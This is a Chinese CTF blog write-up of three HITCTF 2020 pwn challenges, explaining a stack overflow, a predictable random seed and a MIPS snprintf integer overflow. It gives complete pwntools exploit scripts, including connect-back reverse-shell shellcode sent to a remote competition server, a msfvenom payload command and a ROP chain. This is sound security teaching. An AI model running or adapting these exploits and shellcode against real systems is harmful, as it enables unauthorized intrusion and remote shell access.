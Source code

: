 ```yaml
---
title: HITCTF 2020 三道 Pwn
date: 2020-12-09 00:00:02
categories:
- CTF/Pwn
tags: HITCTF mips
---
```


> 比较简单的Pwn，其中的MIPS Pwn是人生中拿到的第一个Pwn的一血，全是4哥的功劳。

总共五道题，做出来三道，题目全在这了：[pwn.zip](https://xuanxuanblingbling.github.io/assets/attachment/hitctf/pwn.zip)

## dagongren1

媳妇博客：[hitctf2020之dagognren1](https://blingblingxuanxuan.github.io/hitctf2020-dagongren1.html)

- 漏洞：main函数scanf栈溢出
- 利用：栈迁移+shellcode反弹shell

> shellcode: [http://shell-storm.org/shellcode/files/shellcode-857.php](http://shell-storm.org/shellcode/files/shellcode-857.php)

```python
from pwn import *
context(arch="amd64",os='linux')
#myelf = ELF("./dagongren1")
#io = process(myelf.path)
io = remote("81.70.209.171",51601)

shellcode  = "\x48\x31\xc0\x48\x31\xff\x48\x31\xf6\x48\x31\xd2\x4d\x31\xc0\x6a"
shellcode += "\x02\x5f\x6a\x01\x5e\x6a\x06\x5a\x6a\x29\x58\x0f\x05\x49\x89\xc0"
shellcode += "\x48\x31\xf6\x4d\x31\xd2\x41\x52\xc6\x04\x24\x02\x66\xc7\x44\x24"
shellcode += "\x02\x7a\x69\xc7\x44\x24\x04\x95\x81\x23\x3d\x48\x89\xe6\x6a\x10"
shellcode += "\x5a\x41\x50\x5f\x6a\x2a\x58\x0f\x05\x48\x31\xf6\x6a\x03\x5e\x48"
shellcode += "\xff\xce\x6a\x21\x58\x0f\x05\x75\xf6\x48\x31\xff\x57\x57\x5e\x5a"
shellcode += "\x48\xbf\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xef\x08\x57\x54"
shellcode += "\x5f\x6a\x3b\x58\x0f\x05"

io.recv()
#gdb.attach(io,"b * 0x400736")
io.sendline('a'*32+p64(0x600e40)+p64(0x4006fc))
sleep(1)
io.sendline('a'*32+p64(0x0)+p64(0x600e50)+shellcode)
io.interactive()
```

参考其他wp：

- [HITCTF_WP_pwn4_5](https://c0yo7e.github.io/2020/12/12/HITCTFF-WP-pwn4n4-5/)
- [emocat/writeups: HITCTF-2020](https://github.com/emocat/writeups/tree/master/2020/HITCTF-2020)

发现因为只关闭了标准输出和标准错误，所以还可以使用将输出重定向到标准错位来绕过。不过使用这种方法在pwntools中用process启动就会给EOF，用socat可以成功：

```python
➜  socat tcp-l:1111,reuseaddr,fork exec:"./dagongren1"
```

```python
from pwn import *
context(arch="amd64",os='linux',log_level='debug')
io = remote("10.10.10.139",1111)
io.recv()
io.sendline('a'*32+p64(0x600e40)+p64(0x4006fc));sleep(0.1)
io.sendline('a'*32+p64(0x0)+p64(0x600e50)+asm(shellcraft.sh()))
io.sendline("exec /bin/sh 1>&0")
#io.sendline("cat /flag>&0")
io.interactive()
```

还可以使用pwntools中的 [shellcraft.cat(filename, fd=0)](http://docs.pwntools.com/en/stable/shellcraft/amd64.html?highlight=shellcraft#pwnlib.shellcraft.amd64.linux.cat)，指定fd为0即可：

```python
from pwn import *
context(arch="amd64",os='linux',log_level='debug')
io = remote("10.10.10.139",1111)
io.recv()
io.sendline('a'*32+p64(0x600e40)+p64(0x4006fc));sleep(0.1)
io.sendline('a'*32+p64(0x0)+p64(0x600e50)+asm(shellcraft.cat("/flag",0)))
io.interactive()
```

## lucky

- 漏洞：可预测的随机数
- 利用：本地预测随机数

```python
from pwn import *
from ctypes import *
context.log_level = "debug"
 
libc = cdll.LoadLibrary('/lib/x86_64-linux-gnu/libc.so.6')
libc.srand(libc.time(0)/0xA+1)
myelf = ELF("./lucky")
#io = process(myelf.path)
io = remote("81.70.209.171",51700)
io.recv()
io.sendline("xuan")
for i in range(100):
    io.recv()
    io.sendline(str(libc.rand()))
io.interactive()
```

## supercgi

> 参考：[emocat/writeups: HITCTF-2020](https://github.com/emocat/writeups/tree/master/2020/HITCTF-2020)

程序属性：`mipsel32:static`，保护全关。功能是一个以标准输入输出为接口的Web服务器，所以可以使用socat这种工具将其绑定到一个端口上然后使用浏览器进行访问。路径解析处过滤了`..`后直接读文件了，中间没有什么多余的操作，所以目录穿越这种Web洞是没有了，还是关注内存问题。

- 漏洞：`detect_robot`函数中，处理多个`User-Agent`字段可导致计算长度的整数溢出，进而可以触发栈溢出
- 利用：恶意数据会存在全局变量中，地址已知，故return 2 shellcode

### 漏洞分析

漏洞函数如下：

```c
char v5[260]; // [sp+20h] [+20h] BYREF
v3 = 255;
v4 = 0;
do
{
if ( !fgets(buf, 1024, stdin) || !strcoll(buf, "\n") || !strcoll(buf, "\r\n") )
    break;
v0 = strlen(UA);
if ( !strncmp(buf, UA, v0) )
{
    v1 = strlen(UA);
    v4 = snprintf(&v5[v4], v3, "%s", &buf[v1 + 1]);
    v3 -= v4;
}
}
while ( v3 );
```

这个循环是每次读输入的一行，问题重点在snprintf上：

> man手册：[https://man7.org/linux/man-pages/man3/snprintf.3.html](https://man7.org/linux/man-pages/man3/snprintf.3.html)

```
int snprintf(char *str, size_t size, const char *format, ...);

RETURN VALUE         top
       Upon successful return, these functions return the number of
       characters printed (excluding the null byte used to end output to
       strings).

       The functions snprintf() and vsnprintf() do not write more than
       size bytes (including the terminating null byte ('\0')).  If the
       output was truncated due to this limit, then the return value is
       the number of characters (excluding the terminating null byte)
       which would have been written to the final string if enough space
       had been available.  Thus, a return value of size or more means
       that the output was truncated.  (See also below under NOTES.)

       If an output error is encountered, a negative value is returned.
```

- 首先snprintf的第二个参数类型是`size_t`，这个再往后找定义是无符号数。
- 其次snprintf的返回值是想要写入的字符串长度，而不是成功长度，故可能出现返回值大于size的情景

所以这题如果上来就给一个长度大于0xff的UA，v3一回合就变负数，下一回合就会被当成无符号数去做输入的size，就可以溢出了。即使输入的UA的长度小于0xff，因为v3是每回合都减小，所以多个回合后一样能把v3减成负数，然后溢出。

### 漏洞利用

mips的shellcode可由msf生成：

```bash
➜  msfvenom -p linux/mipsle/exec  CMD=/bin/sh  --arch mipsle --platform linux -f py -o shellcode.py
```

当然也可以使用网上其他的，如 [http://shell-storm.org/shellcode/files/shellcode-79.php](http://shell-storm.org/shellcode/files/shellcode-79.php)，最终exp如下：

```python
from pwn import *
context(arch='mips',os='linux',endian='little',log_level='debug')

myelf = ELF("./SuperCgi")
io = process(["qemu-mipsel",myelf.path])
#io = process(["qemu-mipsel","-g","1234",myelf.path])

shellcode  = b"\x66\x06\x06\x24\xff\xff\xd0\x04\xff\xff\x06\x28\xe0"
shellcode += b"\xff\xbd\x27\x01\x10\xe4\x27\x1f\xf0\x84\x24\xe8\xff"
shellcode += b"\xa4\xaf\xec\xff\xa0\xaf\xe8\xff\xa5\x27\xab\x0f\x02"
shellcode += b"\x24\x0c\x01\x01\x01\x2f\x62\x69\x6e\x2f\x73\x68\x00"

payload = '''GET /index.html HTTP/1.1
User-Agent: %s
User-Agent: %s
'''% ('a'*0xff,'a'*0xc+p32(0x412e6c)+shellcode)

io.sendline(payload)
io.interactive()
```

gdb调试脚本如下：

```c
➜  cat gdb.cmd 
file SuperCgi
set architecture mips
set endian little
b * 0x00400640
target remote :1234
➜  gdb-multiarch -x ./gdb.cmd
```

比赛时这个洞是瞎发包测出来的，循环那块当时没太看明白，因为溢出点是snprintf，所以payload也会00截断，开始做的非常麻烦，一个是用ROP，因为可以多次溢出，所以先溢出长的，然后溢出短的，就可以绕过00。并且利用思路也麻烦，用的ROP调用程序函数打印flag，本地成功，远程失败，本地挂socat失败，原因不详，后来询问出题人，发现预期解是执行了`cat flag`，果断用shellcode。这个麻烦的方法如下（偏移全是调出来的）：

```python
from pwn import *
myelf = ELF("./SuperCgi")
io = process(["qemu-mipsel",myelf.path])

ra = 0x0040075C # jal  catfile
s0 = 0x00412f1b # str /flag offset
pc = 0x004078F8 # move $a0, $s0; jr  $ra

payload =  "GET /index.html HTTP/1.1"
payload += "\nUser-Agent: "+('a'*167)
payload += "\nUser-Agent: "+('b'*152)   
payload += "\nUser-Agent: "+('c'*187+ p32(ra)+'/flag\x00') 
payload += "\nUser-Agent: "+('d'*78 + p32(pc))           
payload += "\nUser-Agent: "+('e'*179+ p32(s0))            
payload += "\n"

io.sendline(payload)
io.interactive()
```